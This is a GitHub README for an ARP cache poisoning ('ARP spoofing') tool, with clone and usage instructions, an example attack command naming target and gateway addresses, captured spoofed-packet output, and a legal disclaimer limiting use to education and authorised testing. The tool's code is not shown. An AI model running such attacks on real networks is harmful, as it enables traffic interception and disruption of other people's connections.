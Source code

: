 # ARP Cache Poisoning Tool

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages a low-level 
assembly of ethernet frames and ARP packets.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.
```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] (--attackermac MAC | --disassociate) --gatemac MAC --targetmac MAC 
            --gateip IP --targetip IP interface

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  interface          Interface on the attacker machine to send packets from.

optional arguments:
  -h, --help         show this help message and exit
  --attackermac MAC  MAC address of the Network Interface Controller (NIC) used by 
                     the attacker.
  --disassociate     Execute a disassociation attack in which a randomized MAC 
                     address is set for the attacker machine, effectively making 
                     the target host send packets to a non-existent gateway.
  --gatemac MAC      MAC address of the NIC associated to the gateway.
  --targetmac MAC    MAC address of the NIC associated to the target.
  --gateip IP        IP address currently assigned to the gateway.
  --targetip IP      IP address currently assigned to the target.
  --interval TIME    Time in between each transmission of spoofed ARP packets 
                     (defaults to 0.5 seconds).
```


## Sample Output

- Example command to initiate an attack against a given target machine and gateway:
```
user@host:~$ sudo python3 arpspoof.py eth0 --attackermac 08:00:27:1f:6a:67 \
--gatemac 52:54:00:45:6a:69 --targetmac 08:00:27:83:dc:02 \
--gateip 10.0.1.1 --targetip 10.0.1.6

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```
- Example traffic displayed by [Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack takes place:
```
[>] Packet #1 at 15:15:03:
    [+] MAC ......08:00:27:1f:6a:67 -> 52:54:00:45:6a:69
    [+] ARP ...............10.0.1.6 -> Is at 08:00:27:1f:6a:67
[>] Packet #2 at 15:15:03:
    [+] MAC ......08:00:27:1f:6a:67 -> 08:00:27:83:dc:02
    [+] ARP ...............10.0.1.1 -> Is at 08:00:27:1f:6a:67
```

## Contributing
Contributions are what make the open source community such an amazing place 
to learn, inspire, and create. Any contributions you make are greatly appreciated.
1. Fork this Project
2. Create your Feature Branch (`git checkout -b featurebranch/Feature`)
3. Commit your Changes (`git commit -m 'Add some Feature'`)
4. Push to the Branch (`git push origin featurebranch/Feature`)
5. Open a Pull Request

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality, 
for engaging targets without prior mutual consent is illegal. **It is 
the end-user's responsibility to obey all applicable local, state 
and federal laws.**

Developers assume **no liability** and are not 
responsible for misuses or damages caused by any code contained 
in this repository in any event that, accidentally or otherwise, it comes to 
be utilized by a threat agent or unauthorized entity as a means to compromise the security, privacy, 
confidentiality, integrity and/or availability of systems and their associated 
 resources by leveraging the exploitation of known or unknown vulnerabilities present 
in said systems, including, but not limited to, the implementation of security controls, 
human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those circumstances 
directly related to **educational environments** or **authorized penetration testing 
engagements** whose declared purpose is that of finding and mitigating vulnerabilities 
in systems, limiting their exposure to compromises and exploits employed by malicious 
agents as defined in their respective threat models.
